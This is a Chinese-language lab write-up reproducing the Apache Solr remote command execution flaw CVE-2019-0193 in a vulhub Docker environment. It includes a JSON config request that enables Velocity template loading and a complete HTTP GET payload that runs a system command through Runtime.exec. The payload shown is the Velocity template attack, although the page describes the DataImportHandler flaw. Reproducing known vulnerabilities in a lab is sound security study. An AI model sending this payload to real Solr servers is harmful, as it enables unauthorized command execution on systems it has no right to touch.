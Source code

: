 ```yaml
---
description: CVE-2019-0193
---
```


# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

以下内容来自「[是大方子-Apache Solr 远程命令执行漏洞（CVE-2019-0193）](https://note.youdao.com/ynoteshare1/index.html?id=59ba4b4d77327e0b12cfb9a67f114956&type=note)」，我看了他写的复现报告之后，认为写的还可以，并搭建环境完成了复现，具体内容如下：

## 0x00 准备工作

漏洞环境可以采用vulhub的github：

* [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193)

漏洞原理与分析可以参考：

* [https://mp.weixin.qq.com/s/typLOXZCev\_9WH\_Ux0s6oA](https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA)
* [https://paper.seebug.org/1009/](https://paper.seebug.org/1009/)

## 0x01 Solr简介

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。

## 0x02 漏洞概述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。本环境测试RCE漏洞。  
  
漏洞影响范围：Apache Solr &lt;= 8.2.0，Apache Solr 5.x - 8.2.0，存在config API版本

## 0x03 漏洞环境

运行漏洞环境：

```text
docker-compose up -d
```

```bash
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问环境

```text
http://10.26.231.203:8983/solr/#/
```

访问test的配置文件

![](../../../.gitbook/assets/image%20%288%29.png)

```text
http://10.26.231.203:8983/solr/test/config
```

## 0x04 漏洞复现

访问上述网址并抓包并修改发送方式为POST，然后利用s00py公布的poc修改向config发送json配置继续修改

```text
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

{% hint style="danger" %}
注意：图示这2个位置要修改
{% endhint %}

![](../../../.gitbook/assets/image%20%286%29.png)

然后就可以进行RCE

```text
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.26.231.203:8983
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Connection: close
```

![](https://note.youdao.com/yws/public/resource/59ba4b4d77327e0b12cfb9a67f114956/xmlnote/6A6CE5A6CCFA4F589061DB43FAF99AC4/73795)

